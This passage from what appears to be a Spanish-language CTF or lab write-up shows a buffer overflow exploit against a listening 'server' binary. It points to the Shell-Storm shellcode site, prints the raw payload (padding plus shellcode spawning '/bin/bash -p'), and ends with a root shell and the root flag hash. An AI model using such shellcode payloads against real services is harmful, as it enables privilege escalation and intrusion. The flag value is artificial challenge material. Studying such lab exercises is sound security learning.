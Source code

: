 Podremos ver `shell's` en hexadecimal en la siguiente pagina:

URL = [Pagina Shell-Storm](https://shell-storm.org/shellcode/index.html)

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Datos enviados: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������j
                X�Rfh-p��Rjhh/bash/bin��RQS��
```

Y si nos vamos donde teniamos el binario `server` escuchando, veremos que hemos obtenido una shell como el usuario `root`:

```
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:53472
Datos recibidos: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������j
                                                                                                                                             X�Rfh-p��Rjhh/bash/bin��RQS��

Procesado: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������j
                                                                                                                                       X�Rfh-p��Rjhh/bash/bin��RQS��

bash-5.2# whoami
root
```

Por lo que leeremos la flag de `root`.

> root.txt

```
7b99571a3a54ade50fec6091cb42e9ab
```
